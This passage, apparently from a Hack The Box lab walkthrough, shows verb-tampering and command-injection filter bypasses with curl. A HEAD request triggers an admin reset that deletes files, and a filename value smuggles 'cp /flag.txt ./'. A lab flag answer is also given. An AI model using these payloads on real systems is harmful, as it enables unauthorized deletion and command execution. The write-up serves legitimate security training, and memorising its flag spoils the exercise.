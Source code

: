 **2. Enumerate HTTP Methods**
```bash
# Check supported methods
curl -i -X OPTIONS http://94.237.50.221:38391/admin/reset.php

# Expected response:
# Allow: POST,OPTIONS,HEAD,GET
```

**3. Bypass with HEAD Request**
```bash
# Execute reset function with HEAD method
curl -i -X HEAD http://94.237.50.221:38391/admin/reset.php

# Response: 200 OK (empty body)
# Files should be deleted successfully
```

**4. Verification**
```bash
# Verify files are deleted
curl -i http://94.237.50.221:38391/
# Should show empty file manager
```

**🎯 Flag:** `HTB{4lw4y5_c0v3r_4ll_v3rb5}`

### Lab 2: Command Injection Filter Bypass

**Target:** `http://94.237.57.115:43846`

**Objective:** Bypass security filter and execute command: `file; cp /flag.txt ./`

**Step-by-Step Solution:**

**1. Test Security Filter**
```bash
# Try malicious filename with POST (should be blocked)
curl -X POST http://94.237.57.115:43846/ -d "filename=test;"

# Expected: "Malicious Request Denied!"
```

**2. Bypass Filter with GET Method**
```bash
# Convert POST to GET to bypass filter
curl "http://94.237.57.115:43846/?filename=test;"

# Should create file with special characters (no error)
```

**3. Execute Command Injection**
```bash
# Use payload to copy flag file
curl "http://94.237.57.115:43846/?filename=file;%20cp%20/flag.txt%20./"

# URL decoded payload: file; cp /flag.txt ./
```
